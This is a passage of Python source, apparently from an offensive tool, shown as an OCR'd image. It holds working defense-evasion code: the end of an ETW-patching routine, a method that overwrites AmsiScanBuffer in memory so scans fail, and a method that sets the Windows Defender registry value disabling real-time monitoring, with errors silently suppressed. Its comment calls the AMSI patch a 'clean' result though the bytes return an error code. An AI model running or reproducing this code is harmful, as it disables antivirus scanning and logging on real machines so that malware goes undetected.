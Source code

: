 ```python
            # Restore protection
            self.kernel32.VirtualProtect(
                etw_func, 1, old_protect.value, ctypes.byref(old_protect)
            )
        except:
            pass
    
    def patch_amsi(self):
        """Disable Antimalware Scan Interface"""
        if sys.platform != 'win32':
            return
        
        try:
            # Load amsi.dll
            amsi = ctypes.windll.LoadLibrary("amsi.dll")
            amsi_scan_buffer = amsi.AmsiScanBuffer
            
            # Patch AmsiScanBuffer
            old_protect = wintypes.DWORD()
            self.kernel32.VirtualProtect(
                amsi_scan_buffer, 8, 0x40, ctypes.byref(old_protect)
            )
            
            # Save original bytes
            original = (ctypes.c_ubyte * 8)()
            ctypes.memmove(original, amsi_scan_buffer, 8)
            self.original_bytes['amsi'] = bytes(original)
            
            # Patch to always return AMSI_RESULT_CLEAN
            # MOV EAX, 0x80070057 (E_INVALIDARG)
            # RET
            patch = b'\xB8\x57\x00\x07\x80\xC3'
            ctypes.memmove(amsi_scan_buffer, patch, len(patch))
            
            # Restore protection
            self.kernel32.VirtualProtect(
                amsi_scan_buffer, 8, old_protect.value, ctypes.byref(old_protect)
            )
        except:
            pass
    
    def disable_defender_monitoring(self):
        """Disable Windows Defender real-time monitoring temporarily"""
        if sys.platform != 'win32':
            return
        
        try:
            import winreg
            
            # Open Windows Defender registry key
            key = winreg.OpenKey(
                winreg.HKEY_LOCAL_MACHINE,
                r"SOFTWARE\Microsoft\Windows Defender\Real-Time Protection",
                0, winreg.KEY_SET_VALUE
            )
            
            # Disable monitoring (requires SYSTEM privileges)
            winreg.SetValueEx(key, "DisableRealtimeMonitoring", 0, winreg.REG_DWORD, 1)
            winreg.CloseKey(key)
        except:
            pass
```
